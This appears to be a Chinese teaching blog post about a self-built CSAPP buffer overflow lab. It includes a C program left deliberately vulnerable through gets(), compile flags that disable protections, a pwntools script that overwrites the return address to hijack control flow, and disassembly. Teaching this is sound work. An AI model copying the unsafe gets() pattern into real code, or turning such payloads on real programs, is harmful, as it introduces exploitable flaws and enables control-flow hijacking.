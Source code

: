 ```yaml
---
title: CSAPP-attack-lab
published: 2025-09-19
description: 自制attack-lab
tags: [gdb, Lab, CSAPP]
category: 调试工具
draft: false
---
```

亲手制作一个经典的缓冲区溢出(Buffer Overflow)攻击案例。这篇博文将为你讲清楚整个攻击的原理，以及几个关键概念：`RSP`（栈指针）、`gets()` 函数的危险性、金丝雀(`Canary`)、PIE (`Position-Independent Executable`) 和 W^X (`Write XOR Execute`)。


## 1. gets() —— unsafe function
核心是通过一个名为 `gets()` 的非安全函数，向一个固定大小的缓冲区 `buf[16]` 写入超量数据。这些超量的数据会 "溢出" 缓冲区的边界，覆盖掉栈上更重要的数据，特别是**函数的返回地址**。通过精心构造溢出的数据，我们可以将返回地址修改为我们想要执行的任何代码的地址（在这个例子中是 `func()` 函数），从而劫持程序的控制流。
- gcc -g -fno-stack-protector -no-pie main.c
```cpp
#include <stdio.h>
#include <stdlib.h>

void func() { printf("akakak\n"); }

void getstr() {
    char buf[16];
    gets(buf); // 如果你的VSCode给了你一个Warning是正常的，因为这就是不该使用的不安全函数（
}

int main() {
    getstr();
    printf("I am fine.\n");
    exit(0);
    return 0;
}
// gcc -g -fno-stack-protector -no-pie main.c
// python3 att1.py && ./a.out < hex
// objdump -d ./a.out > a.md
```
- python3 att1.py && ./a.out < hex
```python
# att1.py
from pwn import *

padding = b'A' * 24         # 1. try change into char[10], why padding = 18?

addr_func = 0x401176
addr_exit_gadget = 0x4011d1 # 2. (if `-Og`: change into 0x4011cb, and padding = 18)

payload = padding + p64(addr_func) + p64(addr_exit_gadget)

with open('hex', 'wb') as f:
    f.write(payload)
```
- objdump -d ./a.out > a.md
- gdb ./a.out (-x init)
```asm
0000000000401176 <func>:
  401176:	f3 0f 1e fa          	endbr64 
  40117a:	55                   	push   %rbp
  40117b:	48 89 e5             	mov    %rsp,%rbp
  40117e:	48 8d 05 7f 0e 00 00 	lea    0xe7f(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401185:	48 89 c7             	mov    %rax,%rdi
  401188:	e8 d3 fe ff ff       	call   401060 <puts@plt>
```